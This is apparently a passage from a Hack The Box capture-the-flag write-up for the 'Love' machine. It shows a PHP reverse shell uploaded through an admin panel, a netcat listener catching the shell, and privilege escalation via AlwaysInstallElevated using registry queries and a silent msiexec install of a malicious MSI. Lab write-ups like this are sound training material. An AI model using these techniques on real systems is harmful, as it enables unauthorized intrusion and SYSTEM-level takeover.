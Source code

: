 Lets login now into `http://love.htb/admin` :

![Untitled](Love/Untitled%209.png)

Now in Voters I added new Entries that allows me to upload a file so I uploaded the php reverse shell file and loaded the URL →

![Untitled](Love/Untitled%2010.png)

I loaded this URL `http://love.htb/images/php_shell_windows.php` and captured the callback →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Love]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.239] 50243
SOCKET: Shell has connected! PID: 6852
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>hostname
Love

C:\xampp\htdocs\omrs\images>
```
{: .nolineno}

In this case I have no Impersonation privileges so I ran winpeas and got this exploitable →

![Untitled](Love/Untitled%2011.png)

In this privilege of **AlwaysInstallElevated :**

I**f** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\**SYSTEM**.

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
{: .nolineno}

**MSI Installation**

To execute the **installation** of the malicious `.msi` file in **background:**

```powershell
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\alwe.msi
```
{: .nolineno}

To exploit this vulnerability you can use: *`exploit/windows/local/always_install_elevated`* Metasploit help.
